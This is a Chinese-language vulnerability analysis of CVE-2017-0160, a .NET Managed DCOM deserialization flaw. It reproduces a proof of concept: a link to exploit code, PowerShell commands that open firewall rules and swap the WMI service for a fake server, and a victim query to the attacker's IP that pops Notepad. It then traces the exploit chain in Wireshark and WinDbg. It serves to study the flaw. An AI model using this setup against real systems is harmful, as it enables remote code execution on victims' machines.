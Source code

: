 ## CVE-2017-0160漏洞分析

### 漏洞介绍

通过.NET管理DCOM的服务被称为Managed DCOM，其中的IManagedObject接口允许当客户端连接一个不可信任的服务端时，可强制该客户端对恶意构造的BinaryFormatter stream进行反序列化，最终可导致任意代码执行。

### 漏洞分析

.NET远程处理是微软.NET Framework 中的一种网络通信技术，与 XML Web Service 不同的是，它可以使用SOAP 以外的协议来通信，而在服务端和客户端之间所操作的方法近乎相同，客户端可以不必考虑使用的协议，即可访问服务端所开放的对象。

DCOM（分布式组件对象模式）基于组件对象模型（COM），COM提供了一套允许同一台计算机上的客户端和服务器之间进行通信的接口，而通过DCOM，客户端程序对象能够请求来自网络中另一台计算机上的服务器程序对象。

在.NET framework中DCOM常被用于访问WMI (Windows Management Instrumentation) 。WMI是 Windows 系统管理的核心技术，WinMgmt.exe是Windows管理服务，用于系统管理员创建WIndows管理脚本。在System.Management命名空间中的过时类型虽然如今已经被新的Cim类型代替，它们依旧可以作为Powershell中Get-WmiObject命令的后端被访问。当.NET客户端通过IWbemLevel1Login::NTLMLogin方法查询IManagedObject时，将会尝试开启RCW ([Runtime Callable Wrapper](https://msdn.microsoft.com/en-us/library/8bwh56xe(v=vs.110).aspx)) 服务并在本地创建一个远程序列化对象的拷贝，因此将给用户带来风险。

想要达到攻击目的，需要在服务器端将原本的WMI服务替换为定制的包含恶意构造对象的程序，或者在客户端与服务器进行MITM (中间人) 攻击。在漏洞发现者所提供的PoC中，步骤如下：

1) 编译恶意[C# 项目](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41903.zip)，将生成的二进制文件拷贝到攻击者机器的`c:\service\FakeWmiServer.exe`路径下；

2) 在攻击者机器中运行如下命令，配置防火墙规则 (1, 2) 并替换WMI服务 (3, 4)；

```
1. New-NetFirewallRule -DisplayName FAKEWMI -Enabled True -Profile Any -Direction Inbound -Program C:\service\FakeWMIService.exe -Protocol Tcp -LocalPort Any -RemotePort Any -LocalAddress Any -RemoteAddress Any
2. New-NetFirewallRule -DisplayName FAKEWMI -Enabled True -Profile Any -Direction Outbound -Program C:\service\FakeWMIService.exe -Protocol Tcp -LocalPort Any -RemotePort Any -LocalAddress Any -RemoteAddress Any
3. sc.exe config winmgmt binPath= c:\service\FakeWMIService.exe type= own
4. Restart-Service winmgmt -Force
```

3) 在受害者主机中开启powershell并运行如下命令：

```
Get-WmiObject -Class Win32_Process -ComputerName 攻击者IP
```

受害者将会从攻击者主机中下载序列化对象，并在本地反序列化执行任意代码。

让我们详细分析在攻击者与受害者交互过程中发生了什么：

当.NET运行时获取到一个COM对象时，将从CCW ([COM Callable Wrapper](https://msdn.microsoft.com/en-us/library/f07c8z1c(v=vs.110).aspx)) 对该对象进行"unwrap"，并避免创建RCW。根据[官方文档](https://msdn.microsoft.com/en-us/library/cc233722.aspx)，在该过程中.NET运行时将执行如下步骤：

1. 调用COM对象的*QueryInterface*，判断其是否实现了*IManagedObject*接口，如果没有，则返回一个合适的RCW。
2. 调用*GetObjectIdentity*接口，校验GUID与AppDomain ID的合法性，并查询在运行时表中是否存在相应的CCW值，获取真实的managed对象的指针并返回该指针。
3. 调用*GetSerializedBuffer*接口，检查该.NET对象是否可被序列化，如果可以，则将该对象传递给[BinaryFormatter::Serialize](https://msdn.microsoft.com/en-us/library/c5sbs8z9(v=vs.110).aspx)将该对象转换为二进制字符串 (Binary String, BSTR) 格式。接着将该序列化后的对象发送给客户端，客户端将调用[BinaryFormatter::Deserialize](https://msdn.microsoft.com/en-us/library/b85344hz(v=vs.110).aspx)对其进行反序列化。

![](img/1.PNG)

复现该PoC并使用Wireshark抓包，使用`dcom`作为过滤器，可以看到在编号为No.501的包中192.158.182.133 (受害者) 向192.168.182.130 (攻击者) 发送了*QueryInterface*请求*IManagedObject*接口。

![](img/2.PNG)

在编号为No.508的包中攻击者向受害者发送了经过序列化的对象。

![](img/3.PNG)

在Wireshark中可以看到该序列化的二进制字符串对象：

![](img/4.PNG)

在FakeWmiServer.cs中我们可以看到构建该序列化对象Process的源代码，在成功反序列化该对象后将执行`cmd /C notepad`弹出记事本。

![](img/5.PNG)

我们可以在攻击者主机中使用WinDbg附加FakeWMIService.exe进行调试。

![](img/6.PNG)

继续运行，看到FakeWmiServer首先进行了常规操作：调用了SetClientInfo以及EstablishPosition。

![](img/7.PNG)

接着调用NTLMLogin，从下方的源码可以看到通过`new FakeWbemServices()`创建了一个新的FakeWbemServices对象。

![](img/8.PNG)

该对象的定义如下，其中GetObjectData就为FakeWbemServices对象中定义的函数之一。

![](img/9.PNG)

让我们继续在受害者主机中使用WinDbg挂载在powershell.exe进程上进行调试。

![](img/10.PNG)

通过`bp kernel32!CreateProcessW`命令，在创建新进程时下断点。

![](img/11.PNG)

利用SOS.dll提供的功能，可以查看此时程序所有线程的调用堆栈。由下到上的顺序，可见在该线程中首先进行了初始化，并通过`System.Management.SecuredConnectHandler.ConnectNSecureIWbemServices()`连接远程攻击者端的服务。

![](img/12.PNG)

接着获取了远程攻击者发送的序列化对象，调用`System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize()`对其进行反序列化。

![](img/13.PNG)

最终通过`System.Diagnostics.Process.StartWithShellExecuteEx()`启动了新的命令执行任务，执行`cmd /C notepad`弹出记事本。

![](img/14.PNG)